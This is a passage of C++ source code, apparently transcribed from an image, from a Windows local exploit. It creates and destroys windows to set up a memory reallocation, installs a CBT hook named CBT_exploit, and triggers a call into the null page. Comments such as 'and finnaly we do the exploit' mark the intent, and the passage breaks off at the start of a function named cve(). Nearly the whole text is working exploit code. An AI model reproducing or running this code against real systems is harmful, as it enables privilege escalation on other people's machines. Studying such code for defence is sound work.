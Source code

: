         tmp1 = win3;
        // like previously we creatte two window for reallocate
        win3 = CreateWindowEx(WS_EX_LEFT, "Button", NULL, WS_TILEDWINDOW, 500, 500, 100, 100,
            NULL, NULL, hInst, NULL);

        if (!win3)
        {
            std::cout << "Win3 not created : " << GetLastError() << std::endl;
            exit (0);
        }

        tmp2 = win4;
        win4 = CreateWindowEx(WS_EX_LEFT, "Button", NULL, WS_TILEDWINDOW, 500, 500, 100, 100,
            NULL, NULL, hInst, NULL);

        if (!win4)
        {
            std::cout << "Win4 not created : " << GetLastError() << std::endl;
            exit (0);
        }

        // and one wich will be the parrent and then destroy
        win2 = CreateWindowEx(WS_EX_LEFT, "Button", "Test title 2", WS_TILEDWINDOW, 0, 0, 200, 200,
            NULL, NULL, hInst, NULL);

        if (!win2)
        {
            // Funny thing if I exit here the destruction of the window potentially
            // call the null page
            std::cout << "Win2 not created : " << GetLastError() << std::endl;
            exit(0);
        }

        std::cout << "Window 2 : " << win2 << std::endl;
        std::cout << "Window 3 : " << win3 << std::endl;
        std::cout << "Window 4 : " << win4 << std::endl;

        // and finnaly we do the exploit
        hhk = SetWindowsHookEx(5, CBT_exploit, NULL, GetCurrentThreadId());


        win = CreateWindowEx(WS_EX_LEFT, "MyWinClass", "Test title", WS_TILEDWINDOW, 0, 0, 200, 200,
            NULL, NULL, hInst, NULL);

        if (!win)
        {
            std::cout << "Error during the call to the null page : " << GetLastError() << std::endl;
            exit (0);
        }

        UnhookWindowsHookEx(hhk);

    }


    void cve ()
    {
        int addrdecr;
